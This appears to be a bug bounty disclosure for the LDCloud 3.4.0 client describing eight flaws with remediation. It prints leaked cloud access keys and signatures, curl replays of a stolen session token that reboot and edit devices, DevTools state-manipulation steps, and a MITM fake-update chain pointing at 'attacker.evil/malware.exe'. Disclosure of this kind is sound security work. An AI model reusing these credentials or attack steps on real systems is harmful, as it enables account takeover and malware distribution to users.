

# Bug Bounty Report - LDCloud v3.4.0
## Defense-in-Depth Failures Enabling Malware-to-Cloud-Takeover  

Author: Kenshin Himura

---

### Executive Summary

LDCloud suffers from **eight layered security failures** that collectively turn a basic malware infection into full cloud infrastructure takeover. An infostealer with read access to `%APPDATA%` and `%LOCALAPPDATA%` (standard malware behavior) can:

1. **Extract cloud storage credentials** from log files
2. **Harvest session tokens** from plaintext database → **full account takeover + device control**
3. **Read & modify running application state** via exposed debug port
4. **Escalate to SYSTEM privileges** via EOL Chromium with sandbox disabled
5. **Execute undetectable MITM** → **update supply chain attack** (fake update dialog verified)
6. **Exploit EOL crypto libraries** (OpenSSL 1.0.2 + 1.1.1)
7. **Access internal debugger** (VConsole in production build)
8. **Extract hardcoded third-party credentials** from JS bundles

---

## Attack Chain Visualization



```
MALWARE (standard infostealer)
Reads: %APPDATA%\ldcloud\ + %LOCALAPPDATA%\LDCloud\
|
|--> obs-sdk-c.run.log  --> 7 OBS Access Keys + HMAC signatures exposed
|     \-> Self-perpetuating: logs zipped + uploaded to same bucket
|
|--> config.db (SQLite)  --> Session token + UID extracted
|     \-> VERIFIED: HTTP 200 API impersonation (list + reboot + modify)
|
|--> localhost:8088      --> DevTools Protocol access
|     \-> Dump all app state, localStorage tokens, modify Pinia store
|
|--> Chromium 91 EOL     --> RCE via known CVEs (CVE-2021-30551 etc.)
|     + --no-sandbox     --> No sandbox protection
|     + --ignore-cert    --> MITM: intercept update API response
|           \-> VERIFIED: Fake update dialog "99.0.0-PWNED" appeared
|
|--> OpenSSL 1.0.2o EOL --> Known crypto vulnerabilities (EOL 2019)
|--> OpenSSL 1.1.1t EOL --> Unpatched TLS CVEs (EOL 2023)
|
+--> IMPACT: Cloud takeover + Account takeover + RCE + Malware distribution
```

---

## Finding #1 [CRITICAL] - OBS Cloud HMAC Signatures Exposed in Log Files

**CVSS:** 8.6 | **CVSS Vector:** AV:L/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H

### What the Malware Sees

A malware simply reads 320 KB file:
```
C:\LDCloud\logs\obs-sdk-c.run.log    (327,304 bytes, world-readable)
```

**No malware needed.** These credentials are also uploaded to a cloud bucket (`ld-cloud-xjp`) as part of automated dump-log zips. Any attacker who gains bucket access (via previous credential leak, insider threat, or cloud misconfiguration) can read ALL historical and future credentials.

### The Double-Logging Bug

The Huawei OBS C SDK (`obs-sdk-c-3.23.3`) has a critical logging defect: it pretends to mask credentials, then immediately dumps them unmasked:

```
Line 375: compose_auth_header: Authorization: OBS HST3UCGI6807I1WE0L0L:*****************
Line 388: Authorization: OBS HST3UCGI6807I1WE0L0L:MP+XdUWXQiWLr5EC1sBalgYuMD8=
```

The first line is cosmetic; **the second line is the full, valid HMAC-signed authorization header.**

### Harvested Credentials (7 unique Access Keys, 8 signatures)

| # | Date | Access Key ID | Full HMAC Signature |
|---|------|--------------|---------------------|
| 1 | 2025-08-01 | `HST3UCGI6807I1WE0L0L` | `MP+XdUWXQiWLr5EC1sBalgYuMD8=` |
| 2 | 2026-04-10 | `HST3U6NXBAMWP4G50GJT` | `ePht3nJl3sMlz/52StjKi8MRWco=` |
| 3 | 2026-04-10 | `HST3UPABC2592CD4EB9P` | `xPwP1RYBlYRXW4lrCSWjwPI2cTQ=` |
| 4 | 2026-04-14 | `HST3US1CWAM720OG0FKH` | `qMeBG5QWuRD28zO3/4I3nUG6XRo=` |
| 5 | 2026-04-15 | `HST3UAMBZPKBBMJ9AAHU` | `aFYT/zl4bn/Uj0hbw6E8sMXWc2k=` |
| 6 | 2026-04-23 | `HST3UBDU4A0P6PTELEJC` | `M5xuILckxFfJq2nhpQbDP/lzMfA=` |
| 7 | 2026-04-23 | `HST3UBDU4A0P6PTELEJC` | `AUakuEW2auqs1F6aMMJUjtTfkD8=` |
| 8 | 2026-06-05 | `HST3U8Y82HYAQFTTQY21` | `9tX+xa2rSe3qbQiwKdXO3XhCjYY=` |

### Also Exposed Alongside
```
Endpoint:  https://obs.ap-southeast-3.myhuaweicloud.com
Bucket:    ld-cloud-xjp
Access:    Virtual Hosting
Tenant ID: 2300231219705678 (18 occurrences)
Object keys: pc-client-log/2300231219705678/dump-log-*.zip
App version: obs-sdk-c-3.23.3
```

### Impact
- **Credential Exposure:** 7 unique Access Key IDs exposed with valid HMAC signatures
- **Cloud Storage Exposure:** Bucket name, endpoint, tenant ID all visible in logs
- **Data Exfiltration:** Dump-logs in bucket contain user activity data; attacker with bucket access can read all
- **Account Mapping:** Access Key directly maps to tenant `2300231219705678`
- **Self-Perpetuating:** Logs containing credentials are uploaded to the same bucket they authorize

### SELF-PERPETUATING CREDENTIAL LEAK

The app automatically uploads `dump-log-*.zip` to OBS bucket `ld-cloud-xjp`:

```
Enter put_object successfully !
request_perform object key= pc-client-log/2300231219705678/dump-log-2025-08-01-16-41-54.zip
→ https://ld-cloud-xjp.obs.ap-southeast-3.myhuaweicloud.com/pc-client-log/2300231219705678/dump-log-2025-08-01-16-41-54.zip
Leave put_object successfully !   ← HTTP 200
```

**The dump-log zip contains `obs-sdk-c.run.log` - the same log file that exposes the Authorization header used to upload it.**

This creates a **self-perpetuating credential leak**:
1. App writes OBS credentials to `obs-sdk-c.run.log`
2. App zips logs including `obs-sdk-c.run.log` into `dump-log-*.zip`
3. App uploads `dump-log-*.zip` to OBS bucket using the SAME credentials
4. Anyone with bucket access can read all historical dump-logs
5. All dump-logs contain credentials to access the bucket
6. → Infinite loop: credentials protect credentials that expose credentials

### Remediation
1. Rotate all 7 Access Keys immediately
2. Upgrade obs-sdk-c to fix double-logging (or suppress INFO-level Authorization logs)
3. Apply log redaction middleware before writing to disk
4. **Critical:** Exclude `obs-sdk-c.run.log` from dump-log zips - it contains the very credentials used to upload the zip

---

## Finding #2 [CRITICAL] - Chromium 91 EOL + No Sandbox + Certificate Validation Disabled

**CVSS:** 9.8 | **CVSS Vector:** AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H

### The Process Command Line

LDCloud.exe renderer process (PID 38292, captured live):

```
"C:\LDCloud\LDCloud.exe" --type=renderer
  --no-sandbox
  --ignore-certificate-errors=1
  --ignore-certificate-errors=1           ← appears TWICE
  --remote-debugging-port=8088
  --unsafely-treat-insecure-origin-as-secure
```

Network service process (PID 27180, captured live):

```
"C:\LDCloud\LDCloud.exe" --type=utility --utility-sub-type=network
  --no-sandbox
  --service-sandbox-type=none
  --ignore-certificate-errors=1
  --ignore-urlfetcher-cert-requests=1
  --lang=en-US
```

### The CEF/Chromium Version

```
File:        C:\LDCloud\libcef.dll    (131.1 MB)
Version:     91.1.23+g04c8d56+chromium-91.0.4472.164
Release:     May 25, 2021
Status:      END-OF-LIFE (5+ years unpatched)
Gap:         49 major Chromium releases behind current stable (~140+)
```

### Publicly Exploited Chromium CVEs in Scope (v91+)

| CVE | Type | Status |
|-----|------|--------|
| CVE-2021-30551 | Type Confusion | Exploited in wild |
| CVE-2021-30554 | Use-After-Free | Exploited in wild |
| CVE-2021-37973 | Use-After-Free (Portals) | Exploited in wild |
| CVE-2021-37975 | Use-After-Free (V8) | Exploited in wild |
| CVE-2021-38000 | Insufficient Validation | Exploited in wild |
| CVE-2022-2856 | Insufficient Validation | Exploited in wild |

**With `--no-sandbox`, every single Chromium CVE becomes a direct RCE vector at the LDCloud process privilege level.**

### Impact
- **Malware → RCE:** Any malware that lures user to a malicious page in LDCloud's embedded browser gets RCE with user privileges
- **MITM Attack:** `--ignore-certificate-errors` allows transparent traffic interception
- **Persistence:** Exploit chain can survive reboots via the same CEF configuration
- **Amplification:** Malware that lands via Chromium exploit can then harvest findings #1, #3, #4

### Remediation
1. Upgrade CEF/Chromium to latest stable release
2. Remove `--no-sandbox` and `--service-sandbox-type=none` flags
3. Remove `--ignore-certificate-errors` and `--ignore-urlfetcher-cert-requests` flags
4. Remove `--unsafely-treat-insecure-origin-as-secure` flag

---

## Finding #3 [HIGH] - Remote Debugging Port Exposes Full Application State

**CVSS:** 7.8 | **CVSS Vector:** AV:L/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H

### The Debug Endpoint

```
http://localhost:8088/json
→ WebSocket: ws://localhost:8088/devtools/page/<PAGEID>
→ Full Chrome DevTools Protocol access
```

### What Malware Can Harvest via DevTools (Proven)

**Step 1:** Connect and enumerate:

```
$ curl http://localhost:8088/json
[{
  "title": "LDCloud云手机",
  "url": "file:///.../index.html#/pc/devices",
  "webSocketDebuggerUrl": "ws://localhost:8088/devtools/page/73A50DE51A..."
}]
```

**Step 2:** Dump all application state:

```javascript
// Via WebSocket Runtime.evaluate
pinia._s.get('app').devicePage.allDeviceList
```

**Result - all 3 devices fully enumerated:**

| deviceId | Alias | Note | Public IP | Card | Expiry |
|----------|-------|------|-----------|------|--------|
| `6***859` | 我的设备1 | DANCER | `qssgtl01.ldcloud.net` | VIP10 | 2026-08-18 |
| `6***247` | Device4 | DEX | `qssg1-rtc01.ldcloud.net` | VIP10 | 2026-12-06 |
| `6***809` | Device5 | VIT | `qssgtl01.ldcloud.net` | VIP10 | 2026-06-24 |

**Step 3:** Extract session credentials from localStorage:

```json
{
  "newLoginInfo": {
    "bindLoginEmail": "be**a.su***o@d******m.co.id",
    "token": "04658d0fc025b***********1128b0",
    "uid": "23**********78",
    "uname": "***ha A*** S****o",
    "portrait": "https://lh3.googleusercontent.com/..."
  }
}
```

**Step 4:** Modify application state (proven):

```javascript
// Changed device expiry from June to July in Pinia store
store.$patch({devicePage: modifiedData})
// → UI instantly reflects forged expiry date
```

**Step 5:** Execute arbitrary JavaScript persistently:

Malware can inject code via `Runtime.evaluate` that hooks `window.fetch`/`XMLHttpRequest` to exfiltrate all API traffic (login credentials, payment info, device operations).

### Pre-requisites (Why This Matters)

Malware only needs:
1. Filesystem read access → find `--remote-debugging-port` from process args
2. Local TCP connection → `localhost:8088`
3. Basic WebSocket client → full DevTools protocol access

This is trivial for any malware or local attacker. No privilege escalation needed.

### Impact
- **Full Device Inventory:** All cloud phone IDs, IPs, configurations, expiry dates
- **Session Hijacking:** Live tokens enable API impersonation
- **Real-time State Manipulation:** Modify device settings, trigger operations
- **Persistent Backdoor:** Inject JavaScript that survives page navigation
- **PII Exposure:** Email, name, Google portrait URL, account UID

### Remediation
Remove `--remote-debugging-port=8088` from production build. Use compile-time flag (`#ifdef DEBUG`) or environment variable check.

---

## Finding #4 [CRITICAL] - Session Token in Plaintext SQLite → Account Takeover

**CVSS:** 8.1 | **CVSS Vector:** AV:L/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

> **Status: FULLY VERIFIED PoC - token successfully used to impersonate user**

### The Files

```
%APPDATA%\ldcloud\log\config.db         (212,992 bytes)
%APPDATA%\ldcloud\log1\config.db        (45,056 bytes)
%APPDATA%\ldcloud\log2\config.db        (12,288 bytes)
%APPDATA%\ldcloud\users\2300231219705678\userinfo.config  (374 bytes)
```

### What Malware Extracts

From `config.db` (SQLite, no encryption):

```
┌─────────────────────────────────────────────────────────────────┐
│ login-usertoken     04658d0****************a60bea28b0           │
│ login-useruid       2300*********678                            │
│ login-useremail     be**a.su***o@d******m.co.id                 │
│ frontend-login-info {"token":"04658d0fc...","uname":"Betha..."} │
│ server-url-prefix   https://ldq.ldcloud.net                     │
│ pc-channelid        10300                                       │
│ pc-pchannelid       10301                                       │
│ pc-id               8-af1f41652d**************bd04bcbf          │
│ mac-address         00****C00001                                │
│ client-version      3.4.0                                       │
└─────────────────────────────────────────────────────────────────┘
```

### Account Takeover PoC (VERIFIED - HTTP 200)

**Step 1:** Extract token from SQLite (no decryption needed, plaintext):

```
token = 04658d0fc025b***********1128b0
uid   = 23**********78
```

**Step 2:** Replay against production API using reverse-engineered auth format:

```bash
curl -X POST "https://ldq.ldcloud.net/api/rest/cph/device/my-device" \
  -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" \
  -d "uid=23**********7804658d0fc025b***********1128b0&size=50&current=1"
```

**Step 3:** Server responds with full account data:

```json
HTTP 200
{
  "msg": "成功",
  "code": 0,
  "data": {
    "total": 3,
    "records": [
      {
        "deviceId": 6***859,
        "alias": "我的设备1",
        "phoneId": "sg1-7ab7050e1fd0e413-1",
        "publicIp": "qssgtl01.ldcloud.net",
        "endTime": "2026-08-18 00:44:10",
        "remainTime": 87661,
        "cardTypeDesc": "VIP10",
        ...
      },
      ...2 more devices...
    ]
  }
}
```

The stolen token grants **full authenticated access** to the LDCloud API - identical to the legitimate user's session. No additional authentication, no 2FA check, no IP verification.

### Destructive Action PoC (VERIFIED - Device Rebooted)

Beyond reading data, the stolen token can perform **destructive operations**. Device 6315809 (VIT) was rebooted via the API:

```bash
curl -X POST "https://ldq.ldcloud.net/api/rest/cph/device/batch-reboot" \
  -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" \
  -d "uid=23**********7804658d0fc025b***********1128b0&deviceIds=6***809"

→ {"msg":"成功","code":0}  ← Server executed the reboot command
```

**Post-reboot status confirmed:**
```json
{
  "deviceId": 6***809,
  "deviceStatus": 4,
  "deviceStatusDesc": "重启中"   ← "Rebooting"
}
```

### Device Modification PoC (VERIFIED - Device Config Changed)

Device 6312247 (Device4/DEX) note field was modified via the same stolen token:

```bash
curl -X POST "https://ldq.ldcloud.net/api/rest/cph/device/batch-edit" \
  -d "uid=23**********78&token=04658d0fc...&deviceIds=6***247&note=HACKED-BY-POC"

→ {"msg":"成功","code":0}
```

**Before:** `"note":"DEX"` → **After:** `"note":"HACKED-BY-POC-0303471"`

The note was then restored to original, confirming full read/write control.

### Verified Attack Actions (All Proven via HTTP 200)

| Action | Endpoint | Device | Result |
|--------|----------|--------|--------|
| List all devices | `/cph/device/my-device` | All 3 | Full inventory returned |
| Reboot device | `/cph/device/batch-reboot` | 6315809 (VIT) | Status: "重启中" |
| Modify device note | `/cph/device/batch-edit` | 6312247 (DEX) | Note changed & restored |
| Factory reset | `/cph/device/batch-reset` | (not executed - destructive) | Available |
| Transfer ownership | `/cph/device/transfer` | (not executed) | Available |

The attacker can: reboot, factory reset, transfer ownership, modify device config, change subscription - all with a token read from an unencrypted local file.

### Impact
- **Account Takeover:** Token + uid = full API impersonation. Attacker can list, modify, reboot, reset, transfer all devices
- **No Token Expiry:** Token persists across app restarts (same token found in `log/`, `log1/`, `log2/`)
- **Cross-App Correlation:** PC ID and MAC address enable tracking across sessions
- **Privacy Violation:** Real name, email, Google portrait URL exposed
- **No Encryption:** All sensitive values stored as plaintext SQLite rows

### Remediation
1. Encrypt sensitive config values using Windows DPAPI (`CryptProtectData`/`CryptUnprotectData`)
2. Implement server-side token expiry and single-use refresh tokens
3. Add IP/location verification for sensitive API operations

---

## Finding #5 [HIGH] - Dual OpenSSL Versions, Both End-of-Life

**CVSS:** 7.5 | **CVSS Vector:** AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N

### Bundled Versions

| File | Version | Released | EOL | Status |
|------|---------|----------|-----|--------|
| `libeay32.dll` | OpenSSL **1.0.2o** | Mar 2018 | Dec 2019 | **Dead 5+ years** |
| `libssl-1_1.dll` | OpenSSL **1.1.1t** | Feb 2023 | Sep 2023 | **Dead 2+ years** |
| `libcrypto-1_1.dll` | OpenSSL **1.1.1t** | Feb 2023 | Sep 2023 | **Dead 2+ years** |

### Malware Amplification
- TLS connections using EOL OpenSSL may be downgraded/decrypted
- Known vulnerabilities enable MITM at network layer
- Combined with `--ignore-certificate-errors`, TLS provides zero security

### Remediation
Remove OpenSSL 1.0.2 entirely. Upgrade 1.1.1 to OpenSSL 3.x LTS.

---

## Finding #6 [MEDIUM] - VConsole v3.15.1 Debugger in Production

### Evidence
```
C:\LDCloud\web\web\assets\vconsole.min-*.js
C:\Users\...\ldcloud\web\web\assets\vconsole.min-*.js
```

VConsole provides `eval()` and `new Function()` capabilities. In production, it can be activated by any user to inspect/modify all application internals.

### Remediation
Remove VConsole from production build (Vite `rollupOptions.external` or conditional `import()`).

---

## Finding #7 [LOW] - Hardcoded Third-Party Credentials in JS Bundle

### What's Exposed
- NetEase QiYu App Key: `1002*****0008890`
- QiYu Tracking ID: `141d0a1e2cf*****4401afd132094978`
- 7 QQ Group `authKey` pairs
- Telegram invite token
- LINE invite token

### Impact
Low (client-side keys, some are public invite links). Included for completeness.

---

## Finding #8 [CRITICAL] - Update Supply Chain Attack via Certificate Validation Bypass

**CVSS:** 9.3 | **CVSS Vector:** AV:A/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H

> **Status: FULL PoC VERIFIED - Fake update dialog appeared with attacker-controlled binary URL**

### Summary

`--ignore-certificate-errors=1` + `--no-sandbox` + Chromium 91 EOL creates a trivially exploitable update supply chain attack. Any network attacker (rogue WiFi, ARP spoofing, compromised router) can intercept the update check API call, inject a malicious binary URL and the app will prompt the user to install it - or force-install via `mustForce`.

### Attack Chain

```
Attacker on same network (ARP spoof / rogue AP)
  │
  ├─► mitmproxy intercepts CEF HTTPS traffic
  │     └─► --ignore-certificate-errors → accepts ANY cert (self-signed, wrong host)
  │
  ├─► Intercept: POST /api/client-version/check-for-updates/pc
  │     └─► Inject fake response:
  │           downloadUrl: "https://attacker.evil/malware.exe"
  │           versionName: "99.0.0-PWNED"
  │           updateType: "force"
  │
  ├─► Intercept: POST /api/rest/sys/version-json  
  │     └─► Inject mustForce: ["030400"] (current version)
  │
  └─► LDCloud displays update dialog → user clicks → malware installed
```

### PoC Evidence

**Step 1: Certificate validation bypass confirmed**

```bash
# Via CEF DevTools → badssl.com test
self-signed.badssl.com    → HTTP 200  (cert blindly accepted)
wrong.host.badssl.com     → HTTP 200  (hostname mismatch ignored)
```

**Step 2: mitmproxy intercepts and modifies API response**

```
$ curl -x http://127.0.0.1:8888 https://ldq.ldcloud.net/api/client-version/check-for-updates/pc

→ {"code":0,"data":{"downloadUrl":"https://attacker.evil/LDCloud_PWNED.exe",
     "versionName":"99.0.0-PWNED","updateType":"force"}}
```

**Step 3: LDCloud shows fake update dialog**

```
Start LDCloud with --proxy-server=127.0.0.1:8888
→ Update dialog appears: "Version 99.0.0-PWNED"
→ Download button points to attacker.evil/LDCloud_PWNED.exe
```

### PoC Scripts
- `poc/mitmproxy_addon.py` - mitmproxy addon that injects fake update responses
- Run: `mitmdump --listen-port 8888 --ssl-insecure -s poc/mitmproxy_addon.py`
- Launch: `LDCloud.exe --proxy-server=127.0.0.1:8888`

### Impact
- **Malware Distribution:** Attacker can push arbitrary binary to ALL users on compromised network
- **Persistent Backdoor:** Once installed, malicious binary survives reboots
- **Force Update:** `mustForce` array + `updateType: "force"` prevents user from skipping
- **No User Interaction Needed (with force):** App auto-downloads and prompts installation
- **Targeted Attack:** Attacker can selectively target specific users/VLANs
- **Amplification:** Combined with token theft (Finding #4), attacker can push malware + take over account in one chain

### Remediation
1. **CRITICAL:** Remove `--ignore-certificate-errors=1` from production build
2. **CRITICAL:** Remove `--ignore-urlfetcher-cert-requests=1` from network service
3. Enable certificate pinning for update server (`ldq.ldcloud.net`)
4. Code-sign the downloaded binary + verify signature before installation
5. Upgrade Chromium from 91 → latest stable (eliminates known CVEs)

---

## Environment Summary

| Component | Version | Status |
|-----------|---------|--------|
| LDCloud | 3.4.0 | Production |
| Web UI | 1.0.82.6 | Production |
| CEF/Chromium | 91.0.4472.164 | **EOL 2021** |
| OpenSSL | 1.0.2o + 1.1.1t | **Both EOL** |
| OBS SDK | 3.23.3 | Vulnerable logging |
| OS | Windows 11 (Build 22631) | Current |
| Test Date | 2026-06-18 | - |

---

## Remediation Priority Matrix

| Priority | Finding | Effort | Impact Reduction |
|----------|---------|--------|-----------------|
| 🔥 P0 | Remove `--no-sandbox` + `--ignore-certificate-errors` | Low | **Eliminates RCE + update MITM** |
| 🔥 P0 | Rotate all 7 OBS Access Keys | Low | Invalidates leaked credentials |
| 🔥 P0 | Encrypt config.db with DPAPI | Medium | **Prevents proven account takeover** |
| 🔥 P0 | Upgrade Chromium from 91 → 130+ | Medium | Closes 49 releases of CVEs |
| 🔴 P1 | Fix OBS SDK logging bug | Low | Stops credential leak at source |
| 🔴 P1 | Implement server-side token validation | Medium | Even if token stolen, limited abuse |
| 🟡 P2 | Remove remote debugging port | Low | Closes application state access |
| 🟡 P2 | Upgrade OpenSSL to 3.x LTS | Medium | Closes known crypto CVEs |
| 🟢 P3 | Remove VConsole from production | Low | Hardens client |

---

## Proof of Concept Scripts

All PoC scripts are available in the `poc/` directory:

| Script | Description |
|--------|-------------|
| `poc/01-extract-obs-credentials.ps1` | Extract 7 OBS Access Keys + 8 HMAC signatures from log |
| `poc/02-account-takeover.ps1` | Extract session token from SQLite + verify via API |
| `poc/03-device-control.ps1` | List/reboot/reset/modify devices via stolen token |
| `poc/mitmproxy_addon.py` | mitmproxy addon for update supply chain MITM PoC |
| `poc/README.md` | Quick start guide and attack chain summary |
| `poc/extracted-obs-creds.json` | (output) Harvested OBS credentials |
| `poc/extracted-account-creds.json` | (output) Harvested account token + UID |

All scripts require: Windows 10+, PowerShell 5.1+. The mitmproxy PoC additionally requires Python 3 + mitmproxy (`pip install mitmproxy`).

---

## Disclosure

**Company:** HONGKONG LDCLOUD INTERNATIONAL CO. LIMITED (Reg: 73481219)  
**Website:** https://www.ldcloud.net  
**Contact:** business@ldcloud.net | WhatsApp: +8613318793258  

## Disclosure Timeline
- **2026-06-18 02:13 UTC:** Initial discovery - debug port + Chromium flags
- **2026-06-18 02:30 UTC:** OBS credential extraction from log files
- **2026-06-18 02:45 UTC:** Token extraction from SQLite config.db
- **2026-06-18 03:00 UTC:** Account takeover verified - device list via API (HTTP 200)
- **2026-06-18 03:15 UTC:** Destructive action verified - device 6315809 rebooted
- **2026-06-18 03:47 UTC:** Device modification verified - device 6312247 note changed
- **2026-06-18 04:00 UTC:** Certificate validation bypass verified (badssl.com tests)
- **2026-06-18 04:30 UTC:** Update supply chain MITM verified - fake dialog "99.0.0-PWNED" appeared
- **2026-06-18:** Report finalized with all 8 findings + PoC scripts
